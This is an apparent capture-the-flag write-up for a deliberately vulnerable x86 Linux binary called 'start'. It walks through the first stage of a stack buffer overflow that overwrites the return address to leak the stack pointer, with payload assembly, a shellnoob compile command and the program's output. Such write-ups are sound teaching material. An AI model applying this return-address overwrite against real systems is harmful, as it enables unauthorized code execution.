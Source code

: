 Prologue is pretty straightforward. It deallocates memory from stack and tries to gracefully shutdown program.

# First payload

`start` is vulnerable to remote code execution via buffer overflow vulnerability. To actually start exploiting this vulnerability, we need to get `ESP` register content. In x86 Linux there is no guarantee that stack pointer address will remain the same.

Fortunately for us, current stack pointer is saved at the entry point.

```
8048060:	push   esp # Save current stack pointer
```

We just need to carefully overwrite return address in the stack, so at the end of `_start`, ret instruction will jump to code that will print `ESP` for us.

Printing routine starts at `0x8048087`.

```assembly
8048087:	mov    ecx,esp
```

Conveniently current stack pointer address is used as buffer (`ecx` is second argument of syscall). We can print first 20 bytes of stack buffer. I should remind you that stack pointer address is in the stack.

Very conveniently printing to the `stdout` is before reading from `stdin`. That means we can easily send second payload and exploit `ret` second time.

`get_esp.asm` payload source code is as simple as it description.

```
.long 0,0,0,0,0 # Overwrite first 20 bytes of buffer
.long 0x08048087 # SYS_write address
```

Let's compile it with `shellnoob`.

`shellnoob --intel --from-asm get_esp.asm --to-bin`

And try to get current stack pointer address.

```
$ ./start < get_esp2.bin > output.raw
[1]    591345 segmentation fault (core dumped)  ./start < get_esp2.bin > output.raw
```

It's pretty natural that program will now abnormally terminate, because second time return address will be incorrect.

```
$ du --bytes output.raw
40	output.raw
```

Success! 20 bytes of text and 20 bytes of stack.

```
$ cat output.raw
Let's start the CTF:�Z���s���s��%
```
